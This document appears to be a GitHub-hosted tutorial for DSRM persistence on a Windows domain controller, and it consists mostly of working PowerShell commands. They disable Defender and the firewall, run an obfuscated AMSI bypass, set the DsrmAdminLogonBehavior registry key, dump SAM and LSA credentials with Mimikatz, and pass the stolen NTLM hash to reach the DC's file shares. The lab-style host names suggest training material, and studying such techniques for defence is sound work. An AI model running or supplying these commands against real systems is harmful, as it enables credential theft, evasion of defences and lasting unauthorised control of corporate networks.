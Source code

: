 # Directory Services Restore Mode (DSRM)

There is a local administrator on every DC called "Administrator" whose password is the DSRM password. The DSRM password (SafeModePassword) is required when a server is promoted to Domain Controller and it is rarely changed. After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

This is domain persistent, and you should have domain admin rights. We are going to use an account that has domain admin access.

# Prerequisites for Performing the Attack

| Prerequisite              | Details                                                                 |
|-------------------------|-------------------------------------------------------------------------|
| **Domain Admin Rights** | Required to execute commands and make necessary changes on the DC.     |
| **DSRM Password**       | The Directory Services Restore Mode (DSRM) password for the local administrator account on the DC. |
| **Tools**                | - PowerShell<br>- Mimikatz<br>- Required scripts (e.g., Invoke-mimikatz.ps1) |
| **Access to DC**         | Capability to create sessions with the Domain Controller and perform remote commands. |
| **Privilege Escalation** | Ability to disable security measures (like Firewall and AV) and modify registry keys. |
| **NTLM Hash**            | The NTLM hash of the local administrator account on the DC to pass the hash for authentication. |

Ensure all the above prerequisites are met before attempting to perform the attack.

## From the Domain Admin PowerShell Permission

### Create Session
```powershell
$sess = New-PSSession -ComputerName dc
```

### Disable Firewall and AV
```powershell
Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -Session $sess
Invoke-Command -Session $sess -FilePath c:\AD\Tools\Invoke-mimikatz.ps1
```

### Bypass AMSI
```powershell
powershell -ep bypass
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

### Enter Session
```powershell
Enter-PSSession $sess
```
![image](https://github.com/user-attachments/assets/1248be74-9907-4dd4-9a6f-5007b87bf4f7)

### Enter New Registry Key
```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

### If Registry Key Exists

#### Check if DsrmAdminLogonBehavior is set to 2
```powershell
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"
```

#### If DsrmAdminLogonBehavior is not set to 2
```powershell
Set-ItemProperty -Name "DsrmAdminLogonBehavior" -Value 2
```

#### Check if DsrmAdminLogonBehavior is set to 2 again
```powershell
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"
```
![image](https://github.com/user-attachments/assets/33788f38-2c52-4229-88d2-a1e2e0a5231e)

### Compare the Administrator Hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dc
```
![image](https://github.com/user-attachments/assets/b8b581cf-5232-487b-8dea-da22591114d9)

### Dump DSRM Password (Needs DA Privileges) to be used for the command below
```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dc
```

### Use the Command Below to Pass the Hash (Use the Hash from the Above Command)
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:216879snip… /run:powershell.exe"'
```

### Create Session
```powershell
$sess = New-PSSession -ComputerName dc
Enter-PSSession $sess
```

### Or Access the Target Service
```powershell
ls \\dcorp-dc\c$
```
![image](https://github.com/user-attachments/assets/bf50a60d-4102-43b4-b300-3b573caee47c)

```
